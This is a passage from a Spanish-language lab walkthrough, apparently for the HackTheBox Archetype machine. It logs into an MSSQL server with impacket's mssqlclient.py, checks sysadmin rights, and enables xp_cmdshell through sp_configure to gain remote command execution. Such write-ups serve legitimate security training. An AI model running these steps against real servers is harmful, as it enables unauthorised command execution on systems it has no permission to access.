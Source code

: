 Para acceder al servidor mssql, utilizaremos un script que incluye [[impacket]], llamado `mssqlclient.py`. Y lanzamos el script con:

```shell
python3 mssqlclient.py ARCHETYPE/sql_svc@<ip> -windows-auth
```

Utilizamos el parámetro `-windows-auth` para que utilice el sistema de autenticación de windows. Nos pedirá la contraseña que encontramos antes y debería darnos acceso a un servicio de base de datos.

```shell
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

## Consiguiendo RCE (ejecución remota de comandos)

Una vez dentro podemos tratar de mostrar el menú de ayuda con `help`, sin embargo, no obtenemos información muy relevante. Así que nos toca buscar por nuestra cuenta, en [[1433-ms-sql-s]] estará toda la info.

El primer paso será comprobar si nuestro usuario tiene privilegios de administrador:

```sql
SELECT is_srvrolemember('sysadmin');
```

A lo que nos devuelve `1` (true), lo que nos indica que somos un usuario administrador de la base de datos. En este punto, podríamos probar a ejecutar comandos a través de `xp_cmdshell`. Aunque lo primero es comprobar si está habilitado:


```sql
EXEC xp_cmdshell 'net user';
```

Nos reporta que:

```sql
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

Así que lo habilitaremos de la siguiente manera:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
